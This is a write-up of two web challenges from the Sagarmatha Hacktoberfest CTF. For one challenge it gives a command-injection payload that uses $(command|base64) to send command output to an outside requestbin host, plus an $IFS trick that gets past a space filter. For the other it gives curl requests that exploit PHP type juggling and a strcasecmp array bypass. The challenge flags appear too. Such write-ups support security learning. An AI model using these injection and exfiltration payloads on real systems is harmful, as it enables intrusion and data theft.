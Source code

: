 ```yaml
---
title: Web Writeup Sagarmatha Hacktoberfest CTF
published: true
---
```



# AnonBlog

Challenge Description
>There is a place Anonymous blog, people say you cannot share link there because it's their policy. They say sharing link leads to many security issues, though I think it's just opposite based on their specific context(their new feature)

http://nicehellonice-env.eba-p2umpa4t.us-east-1.elasticbeanstalk.com

It was a site where we can add posts through /post.
Cross Site Scripting was possible. At first I thought we use an xss payload to grab the cookie of the admin but it seemed like xss was just a rabbithole.

Checking the robots.txt of the site we find /features.txt that says
```
Newly added feature: Special Hyper Linking!
 - Automatically converts links into a hyperlink.
 - Try setting any URL in the Content, and see it!!
 NOTE: For some dumb reason, link-sharing was not allowed since day 1.
    But due to requests from the users we made it available for it. But
    you still cannot share links, so this application clones the URL
    locally (using curlY "ree--quest-TOR")*, then returns it to you
    from the application itself.
----------
*pronounced "curly requester"
```
So in my head I thought it as of
`curl https://site`
being executed whenever http/https word is used. So next step was to get code execution.

At first I tried common bypasses like && || but since the output was not  being shown, I was not sure if the command was being executed.

So I thought of another approach to send command output to a url. I quickly setup a request bin url and crafted my payload using command substitution like

`http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)`
So what this will look like 

```sh
curl http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)
$(command|base64) get executed and base64 output would be appended to output =
curl http://requestbin.net/r/1bvgn5b1/?output=base64output
```

And through http://requestbin.net/r/1bvgn5b1?inspect I could view the requests being made to the site.

Now that we have command execution with proper output. It was time to find the flag. Actually  using space in command was blocked. So I had to use $IFS instead for every command that contains space.
For example: `$(ls -la)` became `$(ls$IFS-la)`.
I looked around and found a file named `zhululu_2e3817293fc275dbee74bd71ce6eb056_FLAG_4e4d6c332b6fe62a63afe56171fd3725.txt` which contained the flag.
Then I read the file using  `$(base64$IFS-w$IFS\0$IFS/zh*)`
```sh
Sidenote
There is \ before 0 because $IFS0 would simply escape 0 it is behaviour of $IFS to escape suffix if there is no use of symbols like -, | etc.
```

On the request bin inspect tab I recieve ```Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K```

Decoding the base64 we get 
```
Congrats!! You made till the flag 🎉
Grab it, it's below:
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
```
```hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}```






# WrestlePHP
Challenge Description
>Can you beat PHP?

>Here's something that could help you out
>7068702e30646179676f642e78797a

Hex Decoding 7068702e30646179676f642e78797a gives php.0daygod.xyz
On visiting the site we are greeted with source code of the chall php.

 ```php
 <?php

    if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
        die("You are a bot, mate!");
    } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";

    $flag = array("hacktoberfest_ctf{");
    if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
        array_push($flag, "you");
    }
    
    if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
        array_push($flag, "can't");
    }
    
    if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
        array_push($flag, "see");
    }
    
    if(isset($_GET['nice']) && isset($_GET['ecin']))
        if($_GET['nice'] != $_GET['ecin']){
            if(sha1($_GET['nice']) == sha1($_GET['ecin'])){            
                array_push($flag, "what");
            }        
        }
    
    if($_POST['ctf'] == md5($_POST['ctf'])){
        array_push($flag, "this");
    }
    
    if(isset($_POST['parm']) && isset($_POST['mrap'])){
        if(md5($_POST['parm']) == md5($_POST['mrap'])){
            if($_POST['parm'] != $_POST['mrap']){
                array_push($flag, "contains!");
            }
        }
    }
    
    array_push($flag, "}");
    
    echo implode('', $flag);
    
?> 

```
So lets follow along the source and solve the puzzle.
```php
if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
       die("You are a bot, mate!");
   } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";
  ```
First things first we need set out user-agent to "Yes, I am a human."

`curl -A "Yes, I am a human." https://php.0daygod.xyz/`

```php
if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
       array_push($flag, "you");
   }
  ```
  Now we need to add a header `Sagarmatha-Hacktoberfest-CTF` with value `https://hacktober.tk/`
  
  `curl -A "Yes, I am a human." https://php.0daygod.xyz/ -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
  
  ```php
   if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
       array_push($flag, "can't");
   }
   ```
   we need to add a get variable hello and set its value to hi
   
   `curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
   
   ```php
   if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
       array_push($flag, "see");
   }
   ```
   So here the flag part gets appended when get value of world is not equal to 0x10001 but also on the second part of if statement for it to be 0 world must be 0x10001
   Luckily there is a bug for strcmp , strcasecmp where we can pass [] to bypass the check.
   
   `curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
   
    ```php 
    if(isset($_GET['nice']) && isset($_GET['ecin']))
       if($_GET['nice'] != $_GET['ecin']){
           if(sha1($_GET['nice']) == sha1($_GET['ecin'])){            
               array_push($flag, "what");
           }        
       }
       ```

Here we need to pass two `get` params `nice` and `ecin` with different values but their sha1 values should be same in order for flag to be appended.
We use use the type juggling vulnerability here and pass two different value of nice and ecin but the  beginning part of their sha1 should match containg 0e.
From this [list](https://raw.githubusercontent.com/spaze/hashes/master/sha1.md) I was able to find such two words.
So lets pass them

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`


Similarly 
```php
if($_POST['ctf'] == md5($_POST['ctf'])){
       array_push($flag, "this");
   }
```
Here we need find simlar value of ctf like in step above and pass it by POST
`md5(0e215962017) = 0e291242476940776845150308577824`

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017"`


 ```php if(isset($_POST['parm']) && isset($_POST['mrap'])){
       if(md5($_POST['parm']) == md5($_POST['mrap'])){
           if($_POST['parm'] != $_POST['mrap']){
               array_push($flag, "contains!");
           }
       }
   }
   ```
Similarly for the last piece of code we find such two words `hello24343860700` and `hello24034989169` and pass those values to post params parm and mrap

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"`

And thus the final one liner 
`curl -sA "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017&parm=hello24343860700&mrap=hello24034989169"|grep -oE "Flag: hacktoberfest_ctf{.*}"`

Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}



